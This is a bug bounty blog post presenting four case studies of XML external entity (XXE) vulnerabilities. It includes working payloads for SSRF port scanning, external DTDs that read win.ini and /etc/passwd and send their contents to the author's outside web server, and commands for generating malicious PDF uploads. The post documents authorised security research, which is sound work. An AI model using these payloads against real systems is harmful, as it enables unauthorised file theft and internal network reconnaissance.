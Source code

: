 ```yaml
---
layout: single
title: XXE Case Studies
date: 2021-07-26
classes: wide
header:
  teaser: /assets/images/BB.png
tags:
  - Bug Bounty
  - XXE
  - Penetration Testing
---
```


As it has been some time since my last blog post, I decided I would set aside some time to write one now. The topic of this blog post is inspired by a bug I found earlier this morning on a bug bounty program.

## XML External Entity (XXE) Attacks
I have always been fascinated by XXE attacks, and in this blog, I will outline some of the checks I perform when bug bounty hunting to identify and exploit these vulnerabilities. 

While XXE vulnerabilities are rare, they are generally quite easy to exploit. Additionally, they almost always result in a high or critical severity. There are many blogs and resources that talk about what an XXE vulnerability is, so instead I will focus more on examples that I have seen. Unfortunately, I will not be able to share complete walkthroughs as many of these bugs are undisclosed.

## Case Study #1: strXML Parameter

When hunting bugs with Burp Suite, I utilize the extension [Burp Bounty]( https://github.com/wagiro/BurpBounty). This allows me to create custom passive and active profiles. One of the passive profiles I utilized a while back would look for XML in every HTTP request. Upon finding it, the extension would create an issue for me to investigate manually.

![](/assets/images/XXE/1.png)  

This alerted me to quite a fun parameter one day while bug bounty hunting. A recreation of the request is shown below.

![](/assets/images/XXE/2.png)  

That’s right, the `strXML` parameter simply took raw XML. Interestingly enough the bulk of it wasn’t even URL encoded! Not sure how this was a validly formatted HTTP request.
Sadly, I was only able to escalate this finding to an internal port scan via SSRF with a payload similar to the following:
```xml
strXML=<?xml version%3D"1.0" encoding%3D"ISO-8859-1"?>
<!DOCTYPE testingxxe [<!ENTITY xxe PUBLIC "xxe" "http://localhost:21/" >
]> 
    <data>
        <xxx>
            <xxx>194147</xxx>
        </xxx>
        <identity>&xxe;</identity>
    </data>

```
Then Burp Intruder was used to iterate through the top 1000 ports. The open ports returned a different content-length than closed ports.

## Case Study #2: XXE via Proprietary Filetype

I stumbled upon this next XXE completely by accident. The web site had functionality that allowed users to build “apps”. Apps could be exported to a propriety file type that I did not recognize. Upon running `strings` on one of these files I discovered it was a zip file. Upon unzipping the file, I was greeted by a beautiful site.

![](/assets/images/XXE/3.png)  

Next, I replaced the contents of one of the XML files with the following XXE payload.
```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE cinzinga SYSTEM "http://poc.cinzinga.com/test.dtd">
<cinzinga>&e1;</cinzinga>
```

And the contents of `/test.dtd` hosted on my web server are shown below:
```
<!ENTITY % p1 SYSTEM "file:///windows/win.ini">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://poc.cinzinga.com/?x=%p1;'>">
%p2;
```

Upon zipping the folder back up, and importing this app, I was greeted with the contents of `C:\Windows\win.ini` sent to my web server.

## Case Study #3: XXE via KML File
I have encountered a number of sites that take more obscure XML file types as input. Multiple times, I have achieved XXE via KML. KML is a type of XML that is specifically used for maps and geographic data.

To exploit these file uploads, I simply download [a sample KML file]( https://developers.google.com/kml/documentation/KML_Samples.kml) and append an XXE payload in the second line.

To exploit the one I identified today, I made use of a great tool developed by a close  [Tib3rius](https://twitter.com/0xTib3rius). The tool can be found [here]( https://github.com/WhiteOakSecurity/Dynamic-DTD).

This app is run with the following command:
```
flask run -p <port> -h <interface-ip>
```
And triggered with the corresponding payload:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<server-ip>/malicious.dtd?ext=file:///etc/passwd"> %xxe;]>
```

This promptly resulted in the contents of `/etc/passwd` send to my web server.

![](/assets/images/XXE/4.png)  


## Case Study #4: XXE via PDF File

Thus far in my bug bounty career, I have exploited XXE via PDF upload twice. In both cases, the intended functionality was a Resume upload on a careers subdomain. I can only assume that some backend software was scanning the PDFs to extract key information. 

To generate these PDFs, I utilize [this]( https://github.com/StefanMichielse/generate_xxe_payloads) project on GitHub.

I utilize the following command to generate a XXE PDF payload template.
```
ruby oxml_xxe.rb --poc pdf -i 192.168.0.1:8000
```

![](/assets/images/XXE/5.png)  

Next, we can open up the output PDF in a text editor to get a better idea of where the payload is rendered. We can see that the XXE payload is inserted on line 27.
![](/assets/images/XXE/6.png)  

Personally, the PDF payload I utilize is shown below. I have edited the default payload slightly. 

![](/assets/images/XXE/7.png)  

The external dtd is the same as shown above in this blog.

```
<!ENTITY % p1 SYSTEM "file:///windows/win.ini">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://poc.cinzinga.com/?x=%p1;'>">
%p2;
```

## Case Study #?: XXE via Excel File

While I have not yet obtained XXE via Word or Excel file, it is something I have a payload for and routinely check. There is a great blog [here](https://www.4armed.com/blog/exploiting-xxe-with-excel/) that outlines the steps to develop an Excel XXE payload.


## Conclusion
While this article was brief, I hope it served to highlight some XXE vulnerabilities that I have exploited in the wild. While the bug type is not common, I have reported approximately a dozen XXE vulnerabilities in my bug bounty career. This number certainly warrants adding XXE checks to your arsenal when assessing a web app’s security.
